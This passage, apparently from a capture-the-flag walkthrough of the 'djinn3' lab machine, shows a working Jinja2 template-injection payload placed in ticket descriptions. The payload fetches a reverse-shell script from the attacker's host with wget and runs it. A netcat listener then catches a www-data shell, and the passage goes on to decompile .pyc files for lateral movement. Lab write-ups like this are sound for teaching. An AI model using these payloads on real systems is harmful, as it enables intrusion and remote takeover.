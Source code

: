```markdown
$ python3 -m http.server
```
Now, create a ticket with the following description:
```markdown
{{config.__class__.__init__.__globals__['os'].popen('wget http://172.16.222.128:8000/revshell.sh -O /tmp/revshell.sh').read()}}
```
Start a listener (*rlwrap nc -nlvp 4444*) and create another ticket with the following description:
```markdown
{{config.__class__.__init__.__globals__['os'].popen('bash /tmp/revshell.sh').read()}}
```
Now connect to http://djinn.box:5000 to get the list of tickets, and click on the link that corresponds to the latest ticket created. A reverse shell should be spawned to the listener window.
```markdown
kali@kali:/data/djinn3/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.146] 39322
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@djinn3:/opt/.web$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@djinn3:/opt/.web$ 
```
---
### Lateral move (www-data -> saint)
#### Uncompiling the syncer sources
Enumerating the server revealed that the */opt* directory contains compiled python resources (*.pyc):
```markdown
www-data@djinn3:/opt$ ls -la /opt
ls -la /opt
total 24
drwxr-xr-x  4 root     root     4096 Jun  4 20:26 .
drwxr-xr-x 23 root     root     4096 Jun  1 17:17 ..
-rwxr-xr-x  1 saint    saint    1403 Jun  4 20:24 .configuration.cpython-38.pyc
-rwxr-xr-x  1 saint    saint     661 Jun  4 20:24 .syncer.cpython-38.pyc
drwxr-xr-x  2 www-data www-data 4096 May 17 17:05 .tick-serv
drwxr-xr-x  4 www-data www-data 4096 Jun  4 19:11 .web
```

Download the resources and uncompile them with *uncompyle6*. Below is the uncompiled versions of the files:


```python
kali@kali:/data/djinn3/files$ /home/kali/.local/bin/uncompyle6 configuration.cpython-38.pyc 
# uncompyle6 version 3.7.4
# Python bytecode 3.8 (3413)
# Decompiled from: Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
# [GCC 9.3.0]
# Warning: this version of Python has problems handling the Python 3 "byte" type in constants properly.

# Embedded file name: configuration.py
# Compiled at: 2020-06-04 16:49:49
# Size of source mod 2**32: 1343 bytes
import os, sys, json
from glob import glob
from datetime import datetime as dt

class ConfigReader:
    config = None

    @staticmethod
    def read_config(path):
```
